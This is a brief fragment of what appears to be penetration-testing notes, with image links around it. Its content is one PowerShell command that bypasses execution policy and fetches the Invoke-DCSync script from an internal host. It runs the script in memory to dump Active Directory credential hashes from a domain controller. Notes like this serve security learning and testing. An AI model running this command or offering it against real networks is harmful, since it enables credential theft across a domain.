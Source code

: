 	>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-DCSync.ps1');invoke-dcsync
![image](/assets/Pentest_Note/master/img/313.png)